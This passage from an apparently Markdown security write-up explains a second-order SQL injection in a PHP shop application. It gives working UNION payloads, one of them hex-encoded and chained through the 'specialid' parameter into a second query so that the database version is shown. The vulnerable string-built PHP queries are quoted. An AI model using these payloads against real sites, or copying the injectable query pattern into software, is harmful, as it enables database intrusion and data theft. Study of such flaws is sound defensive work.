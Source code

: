**Query 2**
To achieve that, the following would be the payload required to be injected in *query2*:

```mysql
' union select 1,2,@@version,4,5#
```

Should the `$prid` variable hold the above string as its value, *query2* would turn from this:
```php
$sql6="select * from tblproducts where intprodid='$prid'";
```

To this:
```mysql
select * from tblproducts where intprodid='' union select 1,2,@@version,4,5#'
```

This would be a correct query and would allow us to see the value of `@@version` on screen.
So, how do we manipulate *query1* so that it would produce `' union select 1,2,@@version,4,5#` as its output? *hexadecimal* ...

**Query 1**

```php
$sql="select * from tblprodgiftideas where intgiftideaid='$speid'";
```

We know it has 3 columns, the 3rd being our carrier for the payload above. As explained earlier, we will resort to converting the final payload in *hexadecimal* and place the resulting string in the 3rd column of the UNION select.

Payload | hex(Payload)
--- | ---
`' union select 1,2,@@version,4,5#` | `2720756e696f6e2073656c65637420312c322c404076657273696f6e2c342c3523`

Injecting the following into `$speid` via the `specialid` GET/POST parameter:

```mysql
' union select 1,2,0x2720756e696f6e2073656c65637420312c322c404076657273696f6e2c342c3523#
```
Would turn `$sql` to the following:
```mysql
select * from tblprodgiftideas where intgiftideaid='' union select 1,2,0x2720756e696f6e2073656c65637420312c322c404076657273696f6e2c342c3523#'
```

#### Recap

Once executed by the interpreter the query will return the following string (row): `' union select 1,2,@@version,4,5#`

This string will get stored in the `$prid` variable, making *query2* to execute the following query:

`select * from tblproducts where intprodid='' union select 1,2,@@version,4,5#'`

The value of the 3rd column (`@@version`) in the UNION injection will then get stored in the `$resprname1` parameter and displayed on screen.
